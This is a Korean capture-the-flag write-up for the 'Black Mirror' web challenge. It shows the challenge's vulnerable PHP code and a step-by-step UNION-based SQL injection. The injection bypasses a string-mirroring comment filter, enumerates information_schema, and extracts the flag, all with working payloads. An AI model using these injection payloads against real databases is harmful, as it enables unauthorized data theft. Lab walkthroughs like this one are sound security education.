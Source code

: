 # Black Mirror


## Challenge
```
I'm a big fan of black mirror.
Note: Make sure to check the comments of homepage!

https://blackmirror-chall.fmc.tf
```

## Write-Up
문제에 나와있는 URL을 접속하면 다음과 같이 Black Mirror 에피소드를 검색할 수 있는 페이지가 나옵니다.

![image](images/image-001.png)

해당 페이지의 소스코드를 살펴보면, 주석에 `?view-source` 가 작성된 것을 확인할 수 있습니다.

![image](images/image-002.png)

이를 통해 URL 파라미터 `view-source` 를 같이 전달하여 요청하였고, 그 결과 다음과 같이 해당 페이지의 PHP 소스코드를 확인할 수 있었습니다.

![image](images/image-003.png)

코드를 살펴보면, URL 파라미터 `query` 에 입력한 값은 함수 `mirrorify` 로 전달되어 그 결과가 SQL 질의문에 포함되어 질의를 수행하는 것을 확인할 수 있습니다.

```php
$db = dbconnect();
if (isset($_GET["query"]) && is_string($_GET["query"])) {
    $mirrorified = mirrorify($_GET["query"]);
    $sql = "SELECT * FROM series WHERE name LIKE (\"%${mirrorified}%\")";
    $result = mysqli_query($db, $sql);
    $episodes = mysqli_fetch_all($result);
} else {
    $result = mysqli_query($db, "SELECT * FROM series");
    $episodes = mysqli_fetch_all($result);
}
```

즉, 사용자가 입력한 데이터가 데이터베이스 질의문에 그대로 전달되므로 SQL Injection 취약점을 이용하여 푸는 문제로 보입니다.

다만, 사용자가 입력한 URL 파라미터 `query` 의 값은 함수 `mirrorify` 로 전달되는데, 해당 함수는 주석 문자(`--`, `#`)를 `?` 로 변환하고 대괄호(`[]`), 중괄호(`{}`), 소괄호(`()`), 부등호(`<>`) 등의 괄호 문자들을 서로 반대되는 괄호로 변환한 뒤, 원본 문자열과 변환된 문자열을 뒤집어서 붙이는 작업을 수행합니다.

```php
function mirrorify($query) {
    $s_query = str_replace(["--", "#"], "?", $query);
    $trans = [
        "(" => ")", ")" => "(",
        "<" => ">", ">" => "<",
        "[" => "]", "]" => "[",
        "{" => "}", "}" => "{",
    ];
    $m_query = strtr($s_query, $trans);
    return $s_query . strrev($m_query);
}
```

예를 들어, URL 파라미터 `query` 에 `ABCD%")#` 를 전달할 경우 쿼리는 다음과 같이 변경됩니다.

1. 입력 값: `ABCD%")#` 
2. 주석 문자(`#`)을 `?` 문자로 변경 → `ABCD%")?`
3. 괄호 문자(`)`)를 반대 괄호(`(`)로 변경 → `ABCD%"(?` 
4. 2번 값(`ABCD%")?`)과 뒤집어진 3번 값(`?("%DCBA`)을 붙이기 → `ABCD%")??("%DCBA`

이를 통해 다음과 같은 질의문이 만들어집니다.

```sql
--// ABCD%") 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%ABCD%")??("%DCBA%")
```

이러한 특징을 이용하여 SQL Injection 취약점을 발생 시키기 위해 주석 문자 `--` 를 이용했습니다.

함수 `mirrorify` 에서는 주석 문자 `--` 를 `?` 로 변환하고 있지만, 하나의 하이픈 문자(`-`)를 맨 끝에 삽입할 경우 이를 뒤집어서 붙이기 때문에 `--` 문자가 만들어집니다.

예를 들어, `") -`를 전달하면 SQL 질의문은 아래와 같이 생성됩니다. 이때 질의문 끝의 `("%")`는 주석 문자 `--`에 의해 무시되어 정상적인 SQL 질의가 가능해집니다.

```sql
--// ") - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") -- ("%")
```

이를 이용하여 다음의 과정을 통해 플래그를 획득할 수 있었습니다.

### 1️⃣ UNION 구문으로 조회되는 컬럼 위치 식별

페이로드 `?query=") AND 1=2 UNION SELECT 1,2,3,4 -` 를 요청할 경우 질의문은 아래처럼 완성됩니다.

```sql
--// ") AND 1=2 UNION SELECT 1,2,3,4 - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,2,3,4 -- 4,3,2,1 TCELES NOINU 2=1 DNA ("%")
```

![image](images/image-004.png)

즉, `UNION` 구문을 통해 페이지에서 2번째, 3번째 컬럼 값이 조회되는 것을 확인할 수 있습니다. 이후 해당 컬럼 위치에 서브쿼리를 삽입하여 플래그를 획득하면 됩니다.

### 2️⃣ 테이블 조회

테이블 조회는 `SELECT table_name FROM information_schema.tables LIMIT 1` 질의문을 이용하여 `LIMIT` 의 값을 증가하는 방식으로 테이블 정보를 획득하였습니다.

그 결과, `?query=") AND 1=2 UNION SELECT 1,(SELECT table_name FROM information_schema.tables LIMIT 1),3,4 -` 를 요청하면 아래와 같이 SQL 질의문이 완성되며, 플래그가 저장되어있는 테이블 명을 확인할 수 있습니다.

```sql
--// ") AND 1=2 UNION SELECT 1,(SELECT table_name FROM information_schema.tables LIMIT 1),3,4 - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,(SELECT table_name FROM information_schema.tables LIMIT 1),3,4 -- 4,3,(1 TIMIL selbat.amehcs_noitamrofni MORF eman_elbat TCELES),1 TCELES NOINU 2=1 DNA ("%")
```

![image](images/image-005.png)

### 3️⃣ 컬럼 조회

테이블 명이 `FLAG_bc740136d60b25a2c5c305b8` 인 것을 확인 했고, 이어서 컬럼명을 조회하기 위해 `SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1`  질의문을 이용했습니다.

이는 URL `?query=") AND 1=2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1),3,4 -` 로 완성됩니다.

```sql
--// ") AND 1=2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1),3,4 - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1),3,4 -- 4,3,(1 TIMIL "8b503c5c2a52b06d631047cb_GALF"=eman_elbat EREHW snmuloc.amehcs_noitamrofni MORF eman_nmuloc TCELES),1 TCELES NOINU 2=1 DNA ("%")
```

![image](images/image-006.png)

### 4️⃣ 플래그 조회

플래그가 담긴 위치는 테이블 명이 `FLAG_bc740136d60b25a2c5c305b8` 이고, 컬럼이 `flag` 라는 것을 확인했으니, `SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8` 질의문을 이용하면 플래그 획득이 가능합니다.

이는 URL `?query=") AND 1=2 UNION SELECT 1,(SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8),3,4 -` 를 전달하면 되고, 완성되는 SQL 질의문은 다음과 같습니다.

```sql
--//?query=") AND 1=2 UNION SELECT 1,(SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8),3,4 -
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,(SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8 LIMIT 1),3,4 -- 4,3,(1 TIMIL 8b503c5c2a52b06d631047cb_GALF MORF galf TCELES),1 TCELES NOINU 2=1 DNA ("%")
```

![image](images/image-007.png)

결과적으로, 방금 요청한 URL을 통해 플래그가 페이지에 출력되는 것을 확인할 수 있었습니다.

```sql
FMCTF{674fc2c4d20858e922d14fff640a65f2}	
```